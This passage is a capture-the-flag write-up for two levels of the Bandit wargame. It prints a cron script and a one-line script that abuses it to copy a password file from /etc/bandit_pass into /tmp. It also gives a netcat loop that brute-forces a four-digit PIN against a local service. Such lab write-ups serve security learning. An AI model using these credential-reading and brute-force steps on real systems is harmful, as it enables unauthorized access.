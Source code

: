 NOTE 2: Keep in mind that your shell script is removed once
 executed, so you may want to keep a copy around…
### Approach

We have this script running on a cronjob
```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done
```

Now le'ts write a "shell-script", if you could even call it that.
```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/somefile.txt
```
chmod +x it

et voilà

pass: [censored]

## Level 24
### Goal
A daemon is listening on port 30002 and will give you 
the password for bandit25 if given the password for bandit24
 and a secret numeric 4-digit pincode. There is no way to
 retrieve the pincode except by going through all of the 10000
 combinations, called brute-forcing.
You do not need to create new connections each time

### Approach

mktemp -d


our command
```bash
for x in {0000..9999}; do echo 'censored' $x; done | nc localhost 30002 | grep -v Wrong; exit
```
it works!

